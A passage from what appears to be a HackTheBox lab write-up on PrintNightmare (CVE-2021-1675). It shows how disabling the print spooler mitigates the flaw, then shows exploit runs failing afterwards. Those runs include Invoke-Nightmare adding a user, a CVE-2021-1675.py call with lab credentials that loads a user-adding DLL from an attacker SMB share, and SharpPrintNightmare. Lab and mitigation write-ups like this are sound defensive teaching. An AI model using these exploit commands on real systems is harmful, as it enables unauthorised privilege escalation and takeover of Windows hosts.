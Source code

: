 

It would try three times and stop. It's possible I screwed up my SMB
server. Or that something else is wrong. I do know you have to run as a
user in the administrators group, but I tried both as 0xdf (who is in
administrators) and with PowerShell running as Administrator.

## Mitigation

### Disable Spooler

Up until a couple days ago, the only mitigation was to disable the print
spooler service.

From an admin shell (like 0xdf), I can do that with the following
commands:



    *Evil-WinRM* PS C:\Users\0xdf\Documents> stop-service -name spooler -force
    *Evil-WinRM* PS C:\Users\0xdf\Documents> set-service -name spooler -startuptype disabled



The first disables the service currently, and the second will have it
not start on reboot. The second isn't really important on a HTB machine,
as it will restore to a snapshot where the service is enabled and
running, but I run it here just to show the best practice.

Once this is done, `rpcdump.py @10.10.10.149 | grep MS-RPRN` no longer
shows the service, and the exploit no longer works.

Invoke-Nightmare:



    *Evil-WinRM* PS C:\programdata> Invoke-Nightmare -NewUser "0xdf" -NewPassword "0xdf0xdf"
    [+] created payload at C:\Users\Chase\AppData\Local\Temp\nightmare.dll
    [!] failed to get current driver list



Impacket RCE:



    (venv) oxdf@parrot$ python3 CVE-2021-1675.py 'HEIST/hazard:stealth1agent@10.10.10.149' '\\10.10.14.200\share\AddUserDll.dll'
    [*] Connecting to ncacn_np:10.10.10.149[\PIPE\spoolss]
    [-] Connection Failed



SharpPrintNightmare:



    *Evil-WinRM* PS C:\programdata> .\SharpPrintNightmare.exe \programdata\AddUserDll.dll
    SharpPrintNightmare.exe : 
        + CategoryInfo          : NotSpecified: (:String) [], RemoteException
        + FullyQualifiedErrorId : NativeCommandError
    Unhandled Exception: System.ComponentModel.Win32Exception: The RPC server is unavailable
       at SharpPrintNightmare.Program.getDrivers()
       at SharpPrintNightmare.Program.Main(String[] args)
